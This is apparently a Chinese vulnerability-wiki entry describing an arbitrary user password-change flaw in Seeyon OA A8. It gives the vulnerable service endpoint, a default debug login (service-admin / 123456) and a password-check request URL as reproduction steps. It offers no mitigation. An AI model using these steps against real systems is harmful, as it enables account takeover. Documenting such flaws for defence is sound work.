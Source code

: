 致远OA A8 任意用户密码修改漏洞
==============================

一、漏洞简介
------------

二、漏洞影响
------------

致远OA A8

三、复现过程
------------

    http://www.0-sec.org/seeyon/services/authorityService?wsdl

通过调试接口的默认用户 userName:service-admin password:123456
获取万能Token之后可以修改任意用户密码。

![](./.resource/致远OAA8任意用户密码修改漏洞/media/rId24.png)

访问

    http://www.0-sec.org/seeyon/getAjaxDataServlet?S=ajaxOrgManager&M=isOldPasswordCorrect&CL=true&RVT=XML&P_1_String=zw&P_2_String=wooyun

返回false 说明zw密码不正确

![](./.resource/致远OAA8任意用户密码修改漏洞/media/rId25.png)

修改密码

![](./.resource/致远OAA8任意用户密码修改漏洞/media/rId26.png)

![](./.resource/致远OAA8任意用户密码修改漏洞/media/rId27.shtml)
